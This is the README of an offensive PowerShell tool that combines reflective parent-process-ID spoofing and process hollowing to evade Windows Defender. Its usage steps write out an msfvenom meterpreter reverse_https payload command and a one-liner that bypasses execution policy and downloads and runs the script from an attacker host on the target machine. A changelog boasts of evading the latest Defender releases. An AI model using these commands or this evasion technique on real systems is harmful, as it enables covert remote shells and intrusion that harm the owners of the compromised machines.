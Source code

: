 # Reflective PPID ⧓ ProcHollow
**A powershell script that performs reflective parent process ID (PPID) spoofing and process hollowing to evade Windows Defender**

```
                                        _____  _____ _____ _____                            
                                       |  __ \|  __ \_   _|  __ \                           
                                       | |__) | |__) || | | |  | |                          
           ((((((((*                   |  ___/|  ___/ | | | |  | |              /#######(         
        (((((((((((((((,               | |    | |    _| |_| |__| |              *##############(      
       ((((((((((((((((((((            |_|    |_|   |_____|_____/           .##################((     
      (((((((((((((((((((((((((                                         ######################(((    
      (((((((((((((((((((((((((((((     **                   /,     ##########################(((    
      ((((((((((((((((((((((((((((((((,     ************,,,     *#############################(((    
      ((((((((((((((((  ,(((((((((((((((,   ************,,,   ###############(,  #############(((    
      (((((((((((((((*                      ************,,,   ,                  (############(((    
      ((((((((((((((((((((((((((((((,       ************,,,       ,###########################(((    
      ((((((((((((((((((((((((((((((((((,   ************,,,   ################################(((    
      (((((((((((((((((((((((((((((.        ************,,,        ,(#########################(((    
      (((((((((((((((*                 ,.   ***********,,,,   /,                 #############(((    
      (((((((((((((((( ,((((((((((((((((,   ,,,,,,,,,,,,,,,   (((##############, #############(((    
      ((((((((((((((((((((((((((((((((      ,,,,,,,,,,,,,,,      ((((########################((((    
      ((((((((((((((((((((((((((((.     **                   /*     *((((###################(((((    
      ((((((((((((((((((((((((/     *///                      .///,     ((((#############((((((((    
       ((((((((((((((((((((     .////*                           /////      ((((((((((((((((((((     
        (((((((((((((((      //**.                                   ,**//      ((((((((((((((/      
           *(((((((        _____                _    _       _ _                      .(((((((.         
                          |  __ \              | |  | |     | | |              
                          | |__) | __ ___   ___| |__| | ___ | | | _____      __
                          |  ___/ '__/ _ \ / __|  __  |/ _ \| | |/ _ \ \ /\ / /
                          | |   | | | (_) | (__| |  | | (_) | | | (_) \ V  V / 
                          |_|   |_|  \___/ \___|_|  |_|\___/|_|_|\___/ \_/\_/  
```

The script has been hardcoded to search for a parent process (svchost.exe) that matches the current logged on user's privilege and spawns a child process (taskhostw.exe). Feel free to edit the script to take in arguments

*I developed the v1.0 script and have been using it since OSEP days... but it recently triggered an alert for Windows Defender. Decided to improve it to evade again, enjoy script v1.2😀*

## Demo Video
YouTube (higher resolution): https://www.youtube.com/watch?v=GB59m-KJvd0

## Usage
1. Generate msfvenom payload
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=KALI_IP LPORT=443 EXITFUNC=thread -f ps1`
2. Search for `Your payload here` at the top of the script and replace it with the generated payload
3. Host the script on your kali `python3 -m http.server 8088`
4. On your target machine `powershell -ep Bypass -c IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP:8088/Reflective-PPIDxProcHollow_v1.2.ps1')`

## Disclaimer
As we are performing parent process ID spoofing, it can be detected via Event Tracing for Windows (EWT).

## Evading AV
- The v1.0 script creates an alert on Windows Defender upon launching cmd.exe from meterpreter shell. However, your meterpreter shell will still be **kept alive** despite the alert.
- The v1.1 script eradicates the issue of v1.0 and it also makes the process looks more legitimate by spawning it under another parent process through PPID Spoofing. 
- The v1.2 script evades more AV due to it not touching disk at all 😁

## Change Logs
2022-12-12 -- v1.2
   - Converted the script to reflective
   - Disk is lava: Resolved v1.1 issue on temporarly artifacts written to disk.
   - Evading latest Windows Defender again as of 12 Dec 2022
   
2022-12-10 -- v1.1
   - Integrated with PPID spoofing
   - Evading latest Windows Defender again as of 10 Dec 2022

2021-09-18 -- v1.0
   - Simple Process Hollowing
   - Windows Defender alert pop up when launch cmd.exe but our meterpreter shell will not die
